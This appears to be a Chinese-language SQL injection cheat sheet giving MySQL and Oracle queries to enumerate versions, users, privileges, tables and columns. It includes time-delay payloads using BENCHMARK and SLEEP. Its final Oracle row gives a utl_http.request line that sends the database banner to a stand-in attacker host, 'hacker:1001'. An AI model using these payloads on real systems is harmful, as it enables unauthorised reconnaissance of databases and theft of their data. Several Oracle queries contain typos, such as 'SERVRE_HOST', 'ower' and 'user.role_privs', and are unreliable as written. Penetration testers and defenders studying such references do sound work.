```
LEN() - 返回某个文本字段的长度
ROUND() - 对某个数值字段进行指定小数位数的四舍五入
NOW() - 返回当前的系统日期和时间
FORMAT() - 格式化某个字段的显示方式
ASCII() - 返回 ascii 码
```
## MySQL cheatsheet

## 枚举数据库配置信息

| 数据                    | 查询语句                                                     |
| ----------------------- | ------------------------------------------------------------ |
| 版本                    | `SELECT @@version`                                           |
| 当前用户                | `SELECT user(); SELECT system_user();`                       |
| 列出用户 (需要一定权限) | `SELECT user FROM mysql.user;`                               |
| 列出当前用户权限        | `SELECT grantee,privilege_type,is_grantable FROM information_schema.user_privileges;` |
| 当前数据库              | `SELECT database();`                                         |
| 列出数据库              | `SELECT schema_name FROM information_schema.schemata;`       |
| 列出表                  | `SELECT table_name from information_schema.tables where table_schema=database();` |
| 列出列                  | `SELECT column_name from information_schema.columns where table_name="<table_name>"` |
| 字符串长度              | `LENGTH()`                                                   |
| 提取子字符串            | `SELECT SUBSTR(string,offset,length);` <br>`SELECT SUBSTRING(string,offset,length)` |
| 不带引号                | `SELECT char(65,66,67)`                                      |
| 触发时间延迟            | `BENCHMARK(1000000,MD5("HACK!")); SLEEP(10) # 十秒延迟`      |
| IF 语句                 | `SELECT if(1=1,'A','B')`                                     |



## Oracle cheatsheet

## 枚举配置信息

| 数据               | 查询                                                         |
| ------------------ | ------------------------------------------------------------ |
| 版本               | `SELECT banner from v$version;`                              |
| 当前用户           | `SELECT user from dual;`                                     |
| 列出用户           | `SELECT username from all_users order by username`           |
| 当前用户权限       | `SELECT * from user.role_privs;` <br>`SELECT * from user_tab_privs;`<br>`SELECT * from user_sys_privs;` <br>`SELECT sys_context('USERENV','ISDBA') from dual;`<br>`SELECT grantee from dba_sys_privs where privilege='SELECT ANY DICTIONARY'` |
| 数据库名           | `SELECT global_name from global_name;`                       |
| 列出模式/user      | `SELECT username from all_users;`                            |
| 列出表名及模式     | `SELECT owner,table_name from all_tables;`                     |
| 列出列             | `SELECT ower,table_name,column_name from all_tab_columns where table_name="<name>";` |
| 应用服务器主机名   | `SELECT sys_context('USERENV','HOST') from dual;`<br>`SELECT sys_context('USERENV','SERVRE_HOST') from dual;` |
| 数据库主机名       | `SELECT UTL_INADDR.get_host_name from dual;`                 |
| 建立外部连接       | `SELECT utl_http.request('http://hacker:1001/'\|\|(SELECT banner from v$version where rownum=1)) from dual; ` <br>攻击者的http请求中包含了 oracle 数据库检索的结果 |